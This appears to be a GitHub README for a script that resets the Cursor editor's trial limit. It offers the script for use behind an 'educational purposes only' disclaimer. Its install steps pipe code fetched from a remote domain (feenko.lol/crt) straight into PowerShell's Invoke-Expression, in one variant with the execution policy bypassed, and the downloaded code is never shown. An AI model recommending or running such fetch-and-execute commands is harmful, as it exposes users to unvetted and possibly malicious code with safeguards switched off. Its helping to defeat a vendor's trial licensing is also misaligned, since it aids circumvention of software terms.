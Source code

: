 # Reset Cursor Trial Limit

Alternative to outdated tools like:
- https://github.com/ultrasev/cursor-reset
- https://github.com/yx-elite/cursor-limit-reset

## Preparing

> [!WARNING]
> This software is provided for educational and research purposes only. The author and contributors disclaim any liability for any misuse or damage resulting from its use.

Before running script, make sure to logout from cursor. That's the only requirement.

## Running Script

### PowerShell (recommended)

```ps1
irm feenko.lol/crt | iex
```

### Command Prompt

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "& {irm feenko.lol/crt | iex}"
```

## Congratulations!

That's it. Happy coding!